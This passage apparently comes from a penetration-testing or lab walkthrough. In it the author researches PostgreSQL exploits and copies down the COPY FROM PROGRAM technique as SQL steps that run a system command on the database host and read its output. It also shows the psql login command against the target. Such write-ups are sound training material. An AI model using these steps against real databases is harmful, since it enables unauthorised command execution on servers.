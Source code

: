 When scanning through the results I don't see PostgreSQL db 9.6.0 back. I do notice the following exploit *PostgreSQL 9.3 - COPY FROM PROGRAM Command Execution (Metasploit)*.
The version doesn't match, but the command Execution capability sounds interesting. I decide to continue searching with Google.


My search terms which I used are: [postgresql COPY FROM PROGRAM Command Execution windows](https://www.google.com/search?q=postgresql+COPY+FROM+PROGRAM+Command+Execution+windows&ei=E4GJYcqfJMuWsAeZl6TYAQ&oq=postgresql+COPY+FROM+PROGRAM+Command+Execution+windows&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzoHCAAQRxCwAzoECAAQEzoICAAQFhAeEBM6BggAEBYQHjoFCCEQoAE6BwghEAoQoAFKBAhBGABQqQlYgiRg9SVoAXACeACAAXOIAcsFkgEDOC4xmAEAoAECoAEByAEIwAEB&sclient=gws-wiz-serp&ved=0ahUKEwiK9bSuxon0AhVLC-wKHZkLCRsQ4dUDCA0&uact=5) in Google. One of the search results on [Medium](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767) catches my eye and I decide to open it and read it. Another similar article is on [trustwave](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/authenticated-arbitrary-command-execution-on-postgresql-9-3/). 

The way commands are executed here from a database seems very interesting and can be executed according to trustwave's blog on PostgreSQL 9.3 > Latest versionI decide to copy the steps to my notes so that if the information is no longer available I will still have for a later moment. 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
To perform the attack, you simply follow these steps:

1) [Optional] Drop the table you want to use if it already exists

DROP TABLE IF EXISTS cmd_exec;

2) Create the table you want to hold the command output

CREATE TABLE cmd_exec(cmd_output text);

3) Run the system command via the COPY FROM PROGRAM function

COPY cmd_exec FROM PROGRAM ‘id’;

4) [Optional] View the results

SELECT * FROM cmd_exec;

5) [Optional] Clean up after yourself

DROP TABLE IF EXISTS cmd_exec;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



First I have to log in to the PostgreSQL database. This can be done with *psql*, which is standard in Kali. The command I'm using looks like this: **psql -U postgres -p 5432 -h $ip**. The command consists of a number of arguments: 
* -U for the username
* -p for the port number
* -h for the host

I will not provide the password in the command, I will enter it when prompted. 

